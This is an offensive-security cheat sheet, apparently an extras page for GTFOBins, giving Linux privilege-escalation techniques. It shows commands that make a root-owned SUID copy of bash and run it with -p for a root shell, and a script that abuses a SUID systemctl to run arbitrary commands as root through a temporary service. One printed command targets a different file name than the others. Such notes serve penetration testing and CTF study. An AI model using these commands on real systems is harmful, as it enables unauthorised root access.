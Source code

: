 # GTFOBins - extras

Some scripts, utilities, notes... complementary to GTFOBins.

<hr class="sep-both">

## ⚡ Create a bash from a suid program

<div class="row row-cols-md-2 mt-3"><div>

* ➡️ Version 1 : create a SUID file

```bash
$ cp /bin/bash /tmp/rootbash
```

Make the SUID program run the following commands.

```bash
$ chown root /tmp/rootbash
$ chmod +s /tmp/bash
```

Run the bash with `-p` and enjoy.

```bash
$ /tmp/rootbash -p
```
</div><div>

...
</div></div>

<hr class="sep-both">

## ⚡ SUID `systemctl` script

Description: this script make it easier to run several commands using `systemctl`.

<div class="row row-cols-md-2 mt-4"><div>

Create a file `script.sh` with the contents below

```bash
TF=$(mktemp).service
echo "[Service]
Type=oneshot
ExecStart=/bin/sh -c '$@ > /tmp/output'
[Install]
WantedBy=multi-user.target" > $TF
systemctl -f link $TF
systemctl -f enable --now $TF
cat /tmp/output
```
</div><div>

Calls

```bash
$ chmod +x script.sh
$ ./script.sh id
$ ./script.sh ls -la
```
</div></div>